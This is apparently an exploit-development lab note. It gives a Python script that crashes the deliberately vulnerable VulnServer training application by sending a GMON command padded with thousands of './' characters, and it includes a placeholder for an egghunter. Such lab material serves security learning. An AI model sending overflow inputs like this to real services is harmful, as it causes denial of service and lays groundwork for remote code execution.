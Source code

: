 **- For Crashing VulnServer**

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack


host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "
buffer += b"./"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

**- Command Result**

![4b749a6b29b95f05cfd940b537976ac8.png](../_resources/4b749a6b29b95f05cfd940b537976ac8.png)